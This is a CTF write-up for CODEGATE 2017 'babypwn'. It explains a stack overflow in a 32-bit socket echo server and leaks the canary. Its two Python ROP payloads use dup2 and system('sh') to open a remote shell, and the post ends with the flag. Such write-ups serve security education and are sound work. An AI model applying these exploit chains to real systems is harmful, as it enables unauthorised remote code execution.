 title: '[CODEGATE CTF 2017] babypwn 50'
author: Naetw
tags:
- CODEGATE CTF 2017
- pwn
- ROP
- stack overflow
categories:
- write-ups
date: 2017-02-11 23:33:00
---

## Analyzing

32 bits ELF, Partial RELRO, with canary & NX, no PIE.

There is an obvious stack overflow vulnerablility, but this program uses `socket`, actually I haven't learned about socket programing so I won't talk too much about it, since all we need to do due to `fork` is dealing with file descriptor. 

Main operation is in `0x08048A71` function, and previous operation was setup of socket or sth. If you want to test this program locally:

* First run command `ncat -vc ./babypwn -kl 127.0.0.1 4000`
* Second, after looking into the src, we need to `nc localhost 4000` first then our socket program will be started up. After that, we can test our program by port 8181(`nc localhost 8181`).


The behavior of this program is simple:

```
===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu > 1
Input Your Message : AAAA
AAAA

===============================
1. Echo
2. Reverse Echo
3. Exit
===============================
Select menu >
```

Just an echo server, at first glance, I thought there was a format string vulnerablility, but it wasn't. It is just an echo server. However, we can overflow the stack when it takes the input. And we will use this vulnerablility to leak canary to do later exploit.

## Exploit

**Overflow**

I use ida pro.

```c
char buf[40]; // [sp+24h] [bp-34h]@1
...
socket_recv(buf, 100) // socket_recv == 0x08048907
```

Here is an obvious overflow. Therefore, we can calculate offset for canary then make buffer on stack look like this:

```
0xff951f54:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f64:     0x41414141      0x41414141      0x41414141      0x41414141
0xff951f74:     0x41414141      0x41414141      0x4409b50a      0x00000000
```

`0x4409b50a` is our canary, since the first byte of canary would be '\x00', I use the newline to overwrite it so that we can leak the last 3 bytes. After we get the `0x4409b50a`, we just need to change newline back to null byte then we get the canary of this binary. So the real canary is `0x4409b500`.

With canary, we can bypass the stack guard. I will use it to do the first ROP. In the first ROP, I will leak the file descriptor for the socket and the libc function address in order to get the version of libc by using [libc database](http://libcdb.com).

First ROP payload:

```python
socket_send = 0x080488B1
pop1 = 0x08048589
sigemptyset_got = 0x0804B048
echo_select = 0x08048A71
fd_address = 0x0804B1B8
rop1 = [socket_send, pop1, sigemptyset_got, 
        socket_send, echo_select, fd_address]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop1))
```

After placing the ROP gadgets, we need to choose choice 3 to return, then it will return to our ROP gadgets.

I use the [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find the gadget `pop1` which pop once then ret. Since we need to do the second ROP(duplicate file descriptor and open the shell) after leaking information, I make the end of the first ROP return to the `0x08048A71`(function of main operation).


After finding out the version of libc, we can get the libc base. In the second ROP, I will use `dup2` to copy the fd of socket to stdin and stdout then open the shell.(Use dup2 so that we can get the interactive shell)

```python
pop2 = 0x08048B84
sh = base + next(libc.search('sh\x00'))
rop2 = [dup2, pop2, fd, 1,
        dup2, pop2, fd, 0,
        system, 0xdeadbeef, sh]
payload = 'A'*40 +      # padding to canary
        p32(canary) +
        'A'*12 +        # padding to return address
        ''.join(map(p32, rop2))
```

Again, choose the choice 3 to return then open the shell!

[Exploit Code](https://github.com/Naetw/CTF-write-up/blob/master/CODEGATE-2017/babypwn/ex.py)

`FLAG{GoodJob~!Y0u@re_Very__G@@d!!!!!!^.^}`
